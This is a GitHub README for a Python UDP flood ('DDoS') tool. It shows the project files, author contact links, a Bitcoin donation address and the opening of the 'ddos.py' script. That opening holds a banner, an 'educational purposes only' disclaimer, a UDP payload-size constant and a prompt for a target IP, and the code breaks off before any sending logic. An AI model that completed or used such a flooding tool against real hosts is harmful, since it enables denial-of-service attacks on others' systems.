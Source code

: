 ### `.gitignore`
```
__pycache__/
*.pyc
*.pyo
*.pyd
.env
```

### `requirements.txt`
```
termcolor
```

## `Contact`
- [DegreatArizona](https://degreatarizona.com)

## Buy Me A Coffee
**Network: Bitcoin**
```
143E54wEKY11g3D7G2czfrJebf19t5S9CJ
```

### Screanshot
![image](https://github.com/user-attachments/assets/132ffb1f-62c2-4fdb-a0b0-3ebf43347037)
![image](https://github.com/user-attachments/assets/6dd66e09-fb2e-4169-b432-e404c7eb4f25)


### `ddos.py`
(This is your main script file. Copy your debugged script content here.)

```python
#!/usr/bin/env python

import sys
import random
import os
import time
import socket
from termcolor import colored

# Constants
MAX_UDP_SIZE = 65507  # Maximum size of UDP payload

# Clear the terminal and print header
os.system("clear")
os.system("figlet DegreatArizona DDOS")

print()
print(colored("Author   : DegreatArizona", 'green'))
print(colored("Website  : https://degreatarizona.com", 'blue'))
print(colored("Github   : https://github.com/DegreatArizona", 'blue'))
print(colored("YouTube  : https://www.youtube.com/@DegreatArizona", 'blue'))
print(colored("LinkedIn : https://www.linkedin.com/in/degreatarizona", 'blue'))
print(colored("Twitter  : https://twitter.com/degreatarizona", 'blue'))
print(colored("This tool is written for educational purposes only :)", 'yellow'))
print(colored("Degreatarizona is not responsible for misusing it.", 'yellow'))
print()

# Input target IP, port, duration, and packet size
ip = input(colored("Input Target IP Address: ", 'green'))
try:
```